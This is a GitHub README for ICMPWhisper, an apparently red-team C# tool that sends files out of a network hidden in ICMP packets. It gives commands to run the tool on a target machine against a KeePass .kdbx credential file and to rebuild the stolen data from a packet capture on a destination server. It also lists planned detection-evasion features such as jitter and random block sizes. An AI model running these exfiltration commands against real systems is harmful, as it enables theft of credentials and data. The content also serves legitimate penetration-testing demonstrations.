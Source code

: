 # ICMPWhisper

A basic C# implementation of the ICMP exfiltration method.
![Banner](usage.png)

## Description

Recently in an engagement, I had to prove how to exfiltrate info using different protocols.
About the ICMP Method, I found Python scripts using Scapy or even just hping, but there was no C# version available.

There are some Powershell alternatives but I don't know, it's just an excuse to develop something myself.

## Getting Started

### Dependencies

There are no specific dependencies, ICMPWhisper actually works in both Windows and Linux systems.

### Compiling on Windows

* Open the project in Visual Studio Community (currently 2022)
* Publish example:
![Visual Studio Community Publish](publish.png)


### Usage workflow

* On your destination server
```
sudo tcpdump -U -i wlp2s0 icmp[0] == 8 -w /tmp/test.pcap
```

* On the target machine (as admin/root)
```
ICMPWhisper.exe my.dest.ip.srv C:\\file_to_exfiltrate.kdbx
```

* Once ICMPWhisper has finished, on your destination server
```
sudo tshark -r /tmp/test.pcap -Y ip.src==127.0.0.1 -T fields -e data | xxd -p -r | base64 -d
```
**Note:** instead of 127.0.0.1 set the target's IP address (sometimes it fails, just remove the ip.src filter)

## Observations

The code only encodes in base64 the file; feel free to create your own preprocessors (compression, encryption, etc.).

There are a few ToDos that I'm not sure I'll do:
- [ ] Allow Hostname as destination server, not only IP Address as first argument
- [ ] Check Admin/Sudo
- [ ] Create a Preprocessor function instead direct b64
- [ ] blockSize via parameter instead of hardcoded 1000?
- [ ] blockSize random to avoid detection?
- [ ] jitter - random sleep for each connection

## Authors
[@JaviCarabantes](https://www.linkedin.com/in/javi-c-57179113a/)



## License

This project is licensed under the GNU GPLv3 License - see the LICENSE.md file for details

